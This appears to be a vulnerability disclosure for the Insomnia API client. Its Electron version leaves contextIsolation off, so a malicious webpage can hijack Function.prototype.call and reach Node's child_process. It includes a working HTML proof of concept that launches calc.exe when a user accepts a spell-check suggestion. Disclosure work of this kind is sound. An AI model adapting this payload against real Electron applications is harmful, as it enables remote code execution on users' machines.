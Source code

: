 The version of Electron that Insomnia uses is `9.1.1` as can be seen by navigating to "Help" > "About" in the application menu.
The default value of `contextIsolation` in this Electron version is `false`.

Missing `contextIsolation` allows an attacker to get access to Electron or Node.js APIs by overwriting JavaScript functions which might be later called in a context which has access to Node.js APIs.
By overwriting standard JavaScript functions like `Function.prototype.call`, the website which is loaded in the `<webview>` without access to Node.js APIs can get access to them when the overwritten function is executed in the context of Electron or application specific (in this case Insomnia) code.
For example when the overriden function is used in the application code and called with an object as argument that has access to the Nodes.js `child_process` module, it can be accessed inside the function provided as a replacement.
See this [link](https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en) for the original details about exploiting missing `contextIsolation`.

So when a malicious website provides the following content for example:
```html
<html>
<head>
<script>
const handler = {
  apply: function(target, thisArg, argumentsList) {
    console.log(target, thisArg, argumentsList);
    if (argumentsList.length === 4 && argumentsList[3].name === "__webpack_require__") {
        argumentsList[3].m.module(Array.prototype)
        Array.prototype.exports.createRequire("/")("child_process").spawnSync("calc.exe")
    }
    return Reflect.apply(target, thisArg, argumentsList);
  }
};
Function.prototype.call = new Proxy(Function.prototype.call, handler);
</script>
</head>
<body>
<textarea contenteditable spellcheck="true">
clck and correkt mee
</textarea>
test.html
</body>
</html>
```

And a user sends a request to the website, then the user right clicks on the misspelled word and clicks on a suggestion, the attackers payload will get executed.

In this case a npm package called "electron-context-menu", is utilized.
It is created in the [main window](https://github.com/Kong/insomnia/blob/07f9fa676ed8f2e7ea72e5374d69dcb960e32ca9/packages/insomnia-app/app/main/window-utils.js#L501) and also affects subwindows like the webview.
It simply adds a context menu with a few default features.
One of those is responsible for correcting misspelled words by right clicking on the word and choosing one of the suggested corrections.

